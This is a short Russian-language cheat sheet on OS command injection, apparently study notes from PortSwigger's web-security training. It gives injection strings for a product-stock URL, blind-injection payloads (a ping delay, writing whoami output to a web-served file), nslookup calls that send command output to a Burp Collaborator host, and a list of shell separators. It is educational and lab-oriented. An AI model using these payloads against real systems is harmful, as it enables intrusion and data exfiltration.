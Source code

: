 [OS command injection](https://portswigger.net/web-security/os-command-injection)

Unix binaries: [GTOFBins](https://gtfobins.github.io/)
Windows binaries: [LOLBAS](https://lolbas-project.github.io/)

## Выполнение произвольных команд
Запрос:
`https://insecure-website.com/stockStatus?productID=381&storeID=29`
Команда:
`stockreport.pl 381 29`
Инъекция (можно закодировать в URL)
`& whoami &`
Команда примет вид:
`stockreport.pl & whoami & 29`
## Полезные команды
![Some useful commands](_images/OS_command_injection_useful_commands.jpg)
## Слепая инъекция команд
На примере отправки отзыва о сайте:
`mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com`
**Временная задержка**
`; ping -c 10 127.0.0.1 ;`
**Перенаправления вывода**
Например, если приложение обслуживает статические ресурсы из файловой системы /var/www/static, то можно:
`; whoami > /var/www/static/whoami.txt ;`
**Использование out-of-band (OAST) методов**
`; nslookup h0ipdd0o7ubzva6ghoq96993buhl5a.burpcollaborator.net ;`
Эксфильтрация `whoami` (%60 == &#0096;):
`; nslookup %60whoami%60.o1qp1jygitgcuf3cj8xz5zi3jupkd9.burpcollaborator.net ;`
## Способы инъекции
Следующие разделители работают на Windows и Unix-based системах:
-   `&`
-   `&&` 
-   `|`
-   `||`

Следующие разделители работают только на Unix-based системах:
-   `;`
-   newline (`0x0a` или`\n`)

Как работают разделители:
- `cmd1; cmd2` - `cmd2` выполняется в любом случае
- `cmd1 && cmd2` - `cmd2` выполняется, если `cmd1` успешно выполняется
- `cmd1 || cmd2` - `cmd2` выполняется, если `cmd1` возвращает ошибку

В Unix-based системах также можно использовать &#0096; (бэктики) или $:
-   `` ` `` injected command `` ` ``
-   `$(` injected command `)`
